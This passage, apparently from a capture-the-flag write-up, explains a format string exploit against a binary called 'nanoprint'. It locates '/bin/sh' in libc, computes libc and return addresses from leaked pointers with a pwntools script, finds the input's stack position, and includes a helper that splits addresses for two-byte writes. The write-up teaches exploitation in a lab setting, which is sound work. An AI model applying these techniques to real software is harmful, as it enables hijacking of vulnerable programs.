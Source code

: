### Exploit
The first thing I did was find the offset for `/bin/sh` in the `libc`. Here's a simple trick to find the required string in the binary. 

```bash
$ strings -t x -a ./libc.so.6 | grep '/bin/sh'
```

Using this the offset is found to be `17e0cf`. Next step was to find the saved `EIP`. This is where the printed addresses are used. The first address is the address of beginning of `a`. Using `gdb` and running the binary locally, it can be easily calculated that the return address is `113` bytes after the address of `a`. Here is a snippet of the script that calculates all required addresses.

```python
from pwn import *

# space between string beginning and return pointer
diff = 113

# system offset
system_offset = 0x3d200

p = process('./nanoprint', env={"LD_PRELOAD": "./libc.so.6"})

lin = p.recv().decode().strip().split('0x')
# stack address
local = int(lin[1], 16)
# libc address
system = int(lin[2], 16) + 288

libc_base = system - system_offset
jump = local + diff

binsh_offset = 0x17e0cf
binsh = libc_base + binsh_offset
```

The next part was to find out at what position is our input present on the stack. Passing a simple `AAAA%x,%x,%x,%x,%x,%x,%x,%x` type string reveals that `AAAA` is the seventh value on the stack. This means we can access the value at the beginning of our format string using the seventh argument. If you are not familiar with how format string exploits work, I would recommend [this](https://www.youtube.com/watch?v=t1LH9D5cuK4) video. The final step was to find the correct spacing to write the exact values on the desired address. After hours of hit and trial, I decided to use a little mathematics and make it easier.

Here is a simple function I wrote that takes an address in hex and splits it into two values that can be written at the required address and the address 2 bytes from it.

```python
def get_halves(num):
	# example nhex = f7d99200
	nhex = hex(num)[2:]

	first = int(nhex[0:4], 16)
	second = int(nhex[4:], 16)

	return first, second
	# returns 0xf7d9, 0x9200
```
